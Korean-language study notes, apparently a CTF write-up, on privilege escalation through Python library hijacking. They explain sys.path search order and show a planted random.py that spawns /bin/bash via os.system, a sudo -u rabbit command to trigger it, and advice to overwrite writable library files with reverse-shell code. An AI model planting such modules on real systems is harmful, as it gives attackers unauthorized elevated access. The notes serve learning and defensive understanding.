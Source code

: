 
https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/


시스템이 Python 라이브러리에서 권한을 잘못 구성한 시나리오를 접할 수 있습니다. 일반적으로 Python 모듈이 있는 디렉터리에는 상승된 권한 없이는 수정할 수 없도록 권한이 설정되어 있습니다. 이를 통해 사용자가 이 취약점을 만들 수 있는 방법에는 여러 가지가 있습니다.

---

1. 사용자가 자신의 Python 모듈을 만들고 쓰기 액세스를 제한하는 것을 잊어버립니다.
2. 사용자는 Python 라이브러리 디렉토리 내에서 제한을 완화기로 결정합니다.
3. Python 라이브러리의 PATH 변수는 현재 디렉토리를 먼저 확인하도록 구성됩니다.

그럼에도 불구하고 권한을 상승시키려면 상승된 권한으로 Python 스크립트를 실행하는 방법도 필요합니다. 이는 상승된 권한으로 Python 스크립트를 실행하거나 SUID 파일을 통해 다른 취약점을 활용하여 스크립트를 실행하는 cronjob 또는 예약된 작업을 찾는 것을 의미합니다.

![[Pasted image 20250911231826.png]]

---

권한을 상승시키는 잠재적인 방법으로 이 방법을 탐색하기로 결정했다면 먼저 Python이 모듈을 가져오기 위해 파일 시스템 내에서 어디를 찾는지 이해해야 합니다. 이를 위해 Python의 "sys" 모듈을 활용할 수 있습니다. 여기에서 자세한 내용을 읽을 수 있습니다.

```bash
python3 -c 'import sys; print(sys.path)'
```

![[Pasted image 20250911232041.png]]

#### 작동 원리

Python은 import 문을 통해 모듈을 로드할 때, 모듈을 찾기 위해 다음과 같은 순서로 경로를 검색합니다(일반적으로 sys.path에 정의된 순서):

1. **현재 작업 디렉터리(Working Directory)**: Python 스크립트가 실행되는 디렉터리.
2. **PYTHONPATH**: 환경 변수로 설정된 경로.
3. **표준 라이브러리 경로**: Python 설치 디렉터리의 표준 라이브러리.
4. **site-packages**: pip 등을 통해 설치된 서드파티 라이브러리 경로.

공격자는 이 검색 순서를 악용하여, **Python이 먼저 검색하는 디렉터리(예: 현재 디렉터리)**에 악성 모듈(예: requests.py)을 배치합니다. 이로 인해 Python은 신뢰할 수 있는 실제 라이브러리(예: site-packages에 있는 requests) 대신 악성 모듈을 로드하게 됩니다.

Python은 모듈을 로드할 때 **현재 디렉터리(working directory)** 를 먼저 검색합니다. 이는 sys.path의 첫 번째 항목이 보통 현재 디렉터리('' 또는 .)로 설정되기 때문입니다. 예를 들어, import requests를 호출하면 Python은 먼저 현재 디렉터리에 requests.py 또는 requests 폴더가 있는지 확인한 후, 다른 경로(PYTHONPATH, site-packages 등)를 순차적으로 탐색합니다.


---

#### 공격 시나리오

1. **악성 모듈 배치**:
    
    - 공격자가 피해자의 작업 디렉터리에 악성 evil.py 파일을 배치합니다.
    - 이 파일은 실제 evil 라이브러리처럼 동작하지만, 추가로 악성 코드를 실행(예: 데이터 유출, 백도어 설치 등)합니다.
2. **공격 환경**:
    
    - 신뢰할 수 없는 소스에서 다운로드한 Python 프로젝트 폴더.
    - 공유 파일 시스템(NFS, SMB 등) 또는 클라우드 스토리지.
    - 사용자 입력으로 디렉터리 경로를 지정하는 스크립트.

```python title="walrus_and_the_carpenter.py"
# 상승된 권한으로 실행되는 python 스크립트
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
    
```

이 경우 import 된 random의 실제 경로는 /usr/lib/python3/~~ 이쯤 어딘가겠지만, walrus_and_the_carpenter.py와 같은 디렉터리 안에 random.py 파일을 생성함.

```python title="random.py"
import os
os.system("/bin/bash")
```

이후 walrus_and_the_carpenter.py가 다시 실행될 때 같은 디렉터리 내의 random.py가 먼저 검색되면서 import 하게 되고 /bin/bash가 실행되게 된다.

이후 sudo -l 의 결과를 참고해 다음과 같이 실행시킨다.

```bash
# -u : 지정된 사용자로 명령어를 실행
sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
```


---

import 된 라이브러리의 위치를 확인

```python
import random

# 로드된 모듈(random)의 경로 출력
print(random.__file__)
```

random.py의 위치가 출력되고 random.py의 권한에 쓰기 권한이 있다면 random.py 파일에 리버쉘, bash 쉘을 실행시키는 코드로 수정함.
이후 root 권한으로 실행되는 python 파일을 실행시킬 때 random 라이브러리를 들고 오면서 실행되게 된다.

